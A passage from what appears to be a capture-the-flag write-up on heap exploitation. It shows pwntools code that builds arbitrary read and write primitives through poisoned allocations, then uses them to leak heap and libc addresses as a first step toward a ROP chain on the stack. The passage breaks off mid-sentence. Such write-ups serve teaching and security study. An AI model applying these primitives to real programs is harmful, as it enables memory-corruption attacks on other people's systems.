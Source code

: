 
With the above, `chunk {idx}` would be the chunk we get on our second malloc and its address would be on a desired address we want, if you don't know what I am talking about, recall this:
```
[0x410] chunk 0 --> <arbitrary address>
```

Once we can control our allocations to arbitrary addresses, we can do arbitrary read and write. 


To arbitrarily read, we just need to `printf` the content of that "chunk" we malloc'd:
```
def arbitrary_read(r1, r2, addr, heap_base_addr, debug, p, s):
	global idx
	controlled_allocations(r1, r2, addr, heap_base_addr, debug, p, s)
	
	r1.sendline(f"printf {idx - 1}".encode())
	
	r1.readuntil(b"MESSAGE: ")
	output = r1.readline()[:-1]
	leak = u64(output.ljust(8, b'\x00')) 
	return leak
```
To arbitrarily write, we just need to `scanf` and inject payload to that "chunk" we malloc'd:
```
def arbitrary_write(r1, r2, addr, heap_base_addr, content, debug, p, s):
	global idx
	controlled_allocations(r1, r2, addr, heap_base_addr, debug, p, s)
	if debug:
		gdb.attach(p, s)
		pause()
		r1.sendline(f"scanf {idx - 1}".encode())
		r1.sendline(content)
		r1.interactive()
	r1.sendline(f"scanf {idx - 1}".encode())
	r1.sendline(content)
#	r1.interactive()
```

# Playing with programs with arbitrary read and write primitives

Once we get arbitrary read and write primitives, we can finally have real fun with the program. 


My plan was to
Use arbitrary read to get:
```
1. libc leak for ROP chain
2. a random leak to get a stack leak (because only around that region we can get a stack address)
3. stack leak to write our ROP chain on the stack
```
Actual code:
```
		location1 = ((leak & ~0xff) << 12) + 0x8a0
		print(hex(location1))
		
		libc_leak = arbitrary_read(r1, r2, location1, leak, 0, p, s)
```
from offset `+0x8a0` on the `leak` (which is the heap base address we got from `leak_tcache`) it contains a libc address. I know this by doing:
